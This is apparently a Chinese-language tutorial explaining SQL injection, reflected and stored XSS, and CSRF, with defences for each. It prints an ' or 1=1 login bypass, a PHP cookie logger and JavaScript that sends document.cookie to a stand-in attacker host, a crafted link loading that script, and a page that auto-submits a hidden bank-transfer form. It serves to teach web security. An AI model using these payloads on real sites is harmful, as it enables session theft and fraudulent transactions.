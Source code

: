 # 常见web漏洞（Sql注入、XSS、CSRF）原理以及攻防总结
## Sql注入
所谓SQL注入式攻击，就是攻击者把SQL命令插入到Web表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的SQL命令。 攻击者通过在应用程序预先定义好的SQL语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的查询,篡改命令。<br/>
**攻击原理**
``` python
假设的登录查询
SELECT * FROM  users  WHERE login = 'victor' AND password = '123
Sever端代码
String sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
输入字符
formusr = ' or 1=1
formpwd = anything
实际的查询代码
SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything' 
```
**如何防范**<br/>
 - 服务端特殊字符过滤: <、>、* 、& 等
 - 使用ORM框架
 - 参数化Sql查询语句
## Xss攻击
 XSS 全称(Cross Site Scripting) 跨站脚本攻击， 是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的.  比如获取用户的Cookie，导航到恶意网站,携带木马等。<br/>
 **分类： 反射型和持久型**<br/>
### 反射型
这种攻击不经过数据库，是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的，攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。<br/>
**这种漏洞主要存在于与用户有交互的地方，如搜索框，如果后台没有对搜索的内容进行过滤，而原封不动的将搜索内容展示在dom中，则存在Xss漏洞**<br/>
**详细攻击方式如下：**
 - 构建自己的黑客网站 如： hacker.qq.com
 - 该域名下有一 hack.php:
 ``` php
<?php 
$cookie = $_GET['q']; 
var_dump($cookie); 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?>
```
- 另外一 hack.js
``` js
var img = new Image();
img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
document.body.append(img);
```
- 构造一个连接来欺骗用户
``` html
<a href="http://xsstest.qq.com/search.php?q=%3Cscript+
src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=
all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=
1&pcat=food2011&style=grid&cat=">点击就送998</a>
```
假设``` http://xsstest.qq.com ```就是存在xss漏洞的网站，search.php后的q参数 ,解码后为<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script>``` <br/>
实际的作用是模拟用户在搜索框中输入<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script> ```<br/>
后点击搜索。search.php未经处理的将其直接输入到页面， 黑客就可以获取用户在xsstest.qq.com网站的cookie。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
- 前端encodehtml
### 持久型
他和反射型XSS最大的不同就是，攻击脚本将被永久地存放在目标服务器的数据库和文件中。这种攻击多见于论坛，攻击者在发帖的过程中，将恶意脚本连同正常信息一起注入到帖子的内容之中。随着帖子被论坛服务器存储下来，恶意脚本也永久地被存放在论坛服务器的后端存储器中。当其它用户浏览这个被注入了恶意脚本的帖子的时候，恶意脚本则会在他们的浏览器中得到执行，从而受到了攻击。<br/>
如上例中的hack.js, 如果用户输入的内容是hack.js中的内容，而网站没有对用户输入的内容进行审查就存入数据库，然后在论坛帖子中展示，其他用户在浏览论坛的时候就会在浏览器中执行hack.js的js脚本。<br/>
**如何防范** <br/>
- 后台对敏感字符过滤
## CSRF
CSRF（Cross-site request forgery），中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF。<br/>
你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账......造成的问题包括：个人隐私泄露以及财产安全。<br/>
**CSRF 与 Xss 最大的区别是： CSRF不直接获取用户的cookie, 而Xss 则会直接获取用户的Cookie** <br/>
**如果用户访问了某一个银行的网站忘记登出了， 然后又访问了一个恶意网站，而恶意网站中存在以下代码，则发生CSRF** <br/>
``` html
<html>
<head>
  <script type="text/javascript">
    function steal()
    {
             iframe = document.frames["steal"];
             iframe.document.Submit("transfer");
    }
  </script>
</head>
<body onload="steal()">
 <iframe name="steal" display="none">
   <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php">
     <input type="hidden" name="toBankId" value="11">
     <input type="hidden" name="money" value="1000">
   </form>
 </iframe>
</body>
</html>
```
**如何防范**
- 验证码
- Cookie Hashing(所有表单请求都包含同一个伪随机值)，原则上来讲黑客无法获取用户的cookie，只是原则上来讲
``` html
<?php
   $hash = md5($_COOKIE['cookie']);
 ?>
 <form method=”POST” action=”transfer.php”>
   <input type=”text” name=”toBankId”>
   <input type=”text” name=”money”>
   <input type=”hidden” name=”hash” value=”<?=$hash;?>”>
   <input type=”submit” name=”submit” value=”Submit”>
 </form>
```
然后在服务器端进行Hash值验证。
